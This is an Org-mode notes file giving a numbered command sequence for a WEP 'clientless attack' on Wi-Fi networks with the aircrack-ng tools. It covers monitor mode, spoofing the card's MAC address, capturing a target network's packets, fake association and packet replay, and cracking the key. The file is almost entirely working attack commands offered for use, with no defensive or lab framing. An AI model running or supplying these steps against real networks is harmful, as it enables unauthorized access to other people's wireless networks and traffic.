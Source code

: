 #+STARTUP: content
* wep clientless attack

#+begin_src hs
modprobe rtc-cmos
#+end_src

* 1 - put card into monitor mode

#+begin_src sh
sudo airmon-ng stop ath0
sudo ifconfig wifi0 down
#+end_src

* 2 - Create fake mac address

#+begin_src sh
sudo macchanger --mac 00:11:22:33:44:55 wifi0
sudo airmon-ng start wifi0
#+end_src

* 3 - run airodump-ng

#+begin_src sh
sudo airodump-ng ath0
#+end_src

find the network to attack
copy the bssid, channel number and network name

#+begin_src sh
sudo airodump-ng -c (channel number) -w (name for dump packets) --bssid (network bssid) ath0
#+end_src

* 5 - Associate with the access point

#+begin_src sh
sudo aireplay-ng -1 0 -a (network bssid) -h 00:11:22:33:44:55 (faked mac address) ath0
#+end_src

or with essid name

#+begin_src sh
sudo aireplay-ng -1 0 -e teddy -a 00:14:6C:7E:40:80 -h 00:09:5B:EC:EE:F2 ath0
#+end_src

* 6 - start aireplay-ng 

#+begin_src sh
aireplay-ng -2 -p 0841 -c FF:FF:FF:FF:FF:FF -b (bssid) -h 00:11:22:33:44:55 ath0
#+end_src

press y

* 7 - run aircrack-ng with the name of your capture file

#+begin_src sh
sudo aircrack-ng wep-01.cap 
#+end_src

#+begin_src sh
aircrack-ng -n 64 --bssid (network bssid) (name for dump packets)
#+end_src


